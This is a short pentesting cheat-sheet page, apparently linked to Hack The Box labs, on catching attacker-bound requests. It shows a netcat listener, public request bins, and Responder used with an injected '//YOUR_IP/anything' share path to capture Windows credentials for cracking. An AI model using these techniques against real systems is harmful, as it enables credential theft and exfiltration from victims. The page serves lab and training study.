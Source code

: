 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is network accessible, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

Otherwise, we may use online public solutions.
</div><div>

For instance, we can use API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/)
* [postbin](https://www.toptal.com/developers/postbin/)
* [ngrok](https://ngrok.com/)
* ...
</div></div>

<hr class="sep-both">

## Additional tools

<div class="row row-cols-lg-2"><div>

#### Responder

[![attacking_common_services](../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

You can use [responder](https://github.com/lgandx/Responder) to catch Windows authentication requests.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab credentials.

```ps
$ sudo responder -i IP -I tun0
```

In the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div><div>
</div></div>